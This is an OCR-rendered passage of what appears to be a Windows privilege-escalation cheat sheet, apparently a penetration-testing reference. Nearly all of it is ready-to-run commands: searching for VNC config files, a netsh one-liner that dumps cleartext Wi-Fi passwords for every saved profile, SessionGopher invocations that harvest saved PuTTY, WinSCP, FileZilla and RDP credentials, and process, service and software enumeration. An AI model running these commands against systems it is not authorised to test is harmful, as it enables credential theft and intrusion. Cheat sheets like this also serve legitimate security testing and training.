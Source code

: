 %WINDIR%\System32\drivers\etc\hosts
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b

Wifi passwords

Find AP SSID

netsh wlan show profile

Get Cleartext Pass

netsh wlan show profile &lt;SSID&gt; key=clear

Oneliner method to extract wifi passwords from all the access point.

cls & echo. & for /f "tokens=4 delims=: " %a in \('netsh wlan show profiles ^\| find "Profile "'\) do @echo off &gt; nul & \(netsh wlan show profiles name=%a key=clear \| findstr "SSID Cipher Content" \| find /v "Number" & echo.\) & @echo on

Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher

https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss

EoP - Processes Enumeration and Tasks

What processes are running?

tasklist /v
net start
sc query
Get-Service
Get-WmiObject -Query "Select \* from Win32\_Process" \| where {$\_.Name -notlike "svchost\*"} \| Select Name, Handle, @{Label="Owner";Expression={$\_.GetOwner\(\).User}} \| ft -AutoSize

Which processes are running as "system"

tasklist /v /fi "username eq system"

Do you have powershell magic?

REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion

List installed programs

Get-ChildItem 'C:\Program Files', 'C:\Program Files \(x86\)' \| ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY\_LOCAL\_MACHINE\SOFTWARE \| ft Name

List services

net start
wmic service list brief
tasklist /SVC

Scheduled tasks
